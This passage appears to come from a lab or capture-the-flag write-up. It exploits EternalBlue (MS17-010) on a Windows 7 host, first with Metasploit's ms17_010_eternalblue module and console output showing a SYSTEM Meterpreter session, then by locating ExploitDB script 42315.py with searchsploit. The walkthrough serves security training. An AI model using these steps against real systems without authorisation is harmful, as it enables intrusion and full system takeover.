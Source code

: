 ### Exploitation
#### With Metasploit
To conduct the exploitation of EternalBlue with Metasploit, we use the `windows/smb/ms17_010_eternalblue` module. After setting the necessary options, we run the exploit in `check` mode and look for sucess messages to confirm that the exploit was effective. If not, we will have somewhere to start when working to fix any problems.

```
[*] <target-ip>:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] <target-ip>:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
...
[+] <target-ip>:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
...
[*] Meterpreter session 1 opened (<target-ip>:4444 -> <target-ip>:49158) at 2022-08-09 12:14:32 -0400
[+] <target-ip>:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] <target-ip>:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] <target-ip>:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

We are then left with a meterpreter shell session as `NT Authority\SYSTEM`:
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

#### Without Metasploit
To effect this exploit without the use of Metasploit, we instead use `searchsploit` to look through the ExploitDB database for relevant exploits. Luckily, there are a plethora of options to choose from:

```
---------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'Ete | windows/remote/43970.rb
Microsoft Windows - SMB Remote Code Execution Scanner (MS1 | windows/dos/41891.rb
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Cod | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'Eternal | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB  | windows_x86-64/remote/42030.py
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' S | windows_x86-64/remote/41987.py
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
For our purposes, we grab `42315.py` and copy it to our current working directory with `searchsploit -m 42315`. When we attempt to run the exploit, we're given a missing Python module error `No module named 'mysmb'`, is it isn't yet installed on our system. Luckily, we spy a link in the source code to an Offensive Security GitHub repository where we can find it.

```
EDB Note: mysmb.py can be found here ~ https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py
```
